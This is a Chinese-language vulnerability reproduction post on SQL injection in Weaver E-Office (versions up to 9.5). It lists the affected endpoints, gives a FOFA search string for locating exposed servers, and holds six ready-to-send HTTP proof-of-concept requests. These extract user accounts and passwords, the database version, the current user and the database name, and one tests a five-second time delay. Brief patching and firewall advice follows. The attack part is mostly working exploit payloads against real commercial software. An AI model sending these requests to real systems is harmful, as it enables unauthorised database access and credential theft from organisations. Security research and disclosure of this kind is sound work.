







# 泛微E-Office SQL注入漏洞复现

### 0x01 产品简介

    [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020)E-Office是一款标准化的协同 OA 办公软件，泛微协同办公产品系列成员之一,实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

### 0x02 漏洞概述

    泛微e-office  json\_common.php、flow\_xml.php、sms\_page.php、getUserLists、detail.php、Init.php等接口处存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

### 0x03 影响范围

e-office <=9.5

### 0x04 复现环境 

FOFA：app="泛微-EOffice"



### 0x05 漏洞复现

**PoC-1**

```cobol
POST /building/json_common.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city%60+where+cityId+%3D-1+%2F%2A%2150000union%2A%2F+%2F%2A%2150000all%2A%2F+%2F%2A%2150000select%2A%2F+1%2C2%2C%28%2F%2A%2150000select%2A%2F+group_concat%28user_id%2Cuser_accounts%2Cuser_name%2Cpassword%29+from+user%29%2C4%23%7C2
```

获取用户账号密码信息

**PoC-2**

```cobol
GET /general/system/workflow/flow_type/flow_xml.php?SORT_ID=1+UNION+ALL+SELECT+CONCAT%280x716a717071%2C%40%40version%2C0x716a717071%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

查询数据库版本

**PoC-3** 

```cobol
GET /E-mobile/sms_page.php?detailid=123%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,CONCAT(0x7e,user(),0x7e),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

查询当前用户

**PoC-4**

```cobol
GET /E-mobile/App/System/UserSelect/index.php?m=getUserLists&privId=1+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,(concat(database()))-- HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

查询当前数据库

**PoC-5** 

```cobol
POST /general/crm/linkman/query/detail.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Cookie: PHPSESSID=eff067b73c42eed28e55fd037563593a; LOGIN_LANG=cn; expires=Tue, 22-Apr-2025 14:54:24 GMT
Accept-Encoding: gzip

linkman_id=1%20AND%20%28SELECT%205830%20FROM%20%28SELECT%28SLEEP%285%29%29%29mDdD%29
```

延时5秒

**PoC-6**

```cobol
POST /E-mobile/App/Init.php?m=getSelectList_Crm HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

cc_parent_id=-999+%2F%2A%2150000union%2A%2F+%2F%2A%2150000all%2A%2F+%2F%2A%2150000select%2A%2F+1%2C%28%2F%2A%2150000select%2A%2F+user%28%29%29%23
```

查询当前用户 



### 0x06 修复建议

厂商已发布了漏洞修复程序，请及时关注更新：https://www.e-office.cn/

临时修复方案：

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
